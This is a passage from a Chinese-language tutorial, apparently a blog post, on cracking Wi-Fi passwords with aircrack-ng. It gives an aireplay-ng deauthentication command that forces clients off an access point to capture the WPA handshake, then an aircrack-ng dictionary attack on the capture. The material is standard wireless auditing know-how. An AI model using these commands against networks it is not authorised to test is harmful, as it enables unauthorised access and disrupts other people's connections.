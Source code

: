 向AP发送取消认证的数据包，使一个或多个客户端与AP断开，迫使其发送握手包进行重新链接

    aireplay-ng -0 10 -a 目标MAC地址 -c 客户端MAC地址 MAC mon0
    

在使用上述命令后，在前一个终端中，#Data列数据将会增长，直到终端中显示如下描述时就可以进行WAP的破解了。

    WPA handshake: 00:14:6C:7E:40:80
    

> PS：更多攻击方式的使用示例请看这里吧：http://www.aircrack-ng.org/doku.php?id=aireplay-ng

#### 4.4破解数据包(aircrack-ng)

打开第三个终端，开始破解：

    aircrack-ng -w password.lst -b 目标MAC地址 output*.cap
    

-w 指定使用的字典文件

> PS：WEP加密方式再复杂的密码在5分钟内就可以破解出来，而WAP加密方式就要看字典文件、密码复杂度以及运气和人品了。

### 5.参考：

1.aireplay-ng的九种攻击方式：<http://jim19770812.blogspot.com/2012/05/aircrack-ng.html>  
2.各种破解教程：<http://www.aircrack-ng.org/doku.php?id=tutorial>  
3.Ubuntu支持无线网卡驱动信息：<https://help.ubuntu.com/community/WifiDocs/Driver>

 [1]: http://www.aircrack-ng.org/doku.php?id=compatibility_drivers#which_is_the_best_card_to_buy
 [2]: https://help.ubuntu.com/community/WifiDocs/Driver
 [3]: http://linuxwireless.org/